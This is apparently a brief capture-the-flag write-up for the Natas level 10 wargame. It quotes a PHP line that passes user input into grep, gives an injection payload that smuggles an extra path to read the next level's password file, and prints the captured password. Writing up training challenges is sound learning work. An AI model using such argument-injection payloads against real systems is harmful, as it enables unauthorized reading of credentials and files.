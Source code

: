 ```yaml
---
layout: default
title: natas10
---
```




in this challenge we use command injection, this is the vuln part: `passthru("grep -i $key dictionary.txt");`

here we can't use `;`, so we will use this payload we gives 
`a /etc/natas_webpass/natas11`
if you don't get the password for 'a', try insert different characters.

**Flag:** ***`UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`*** 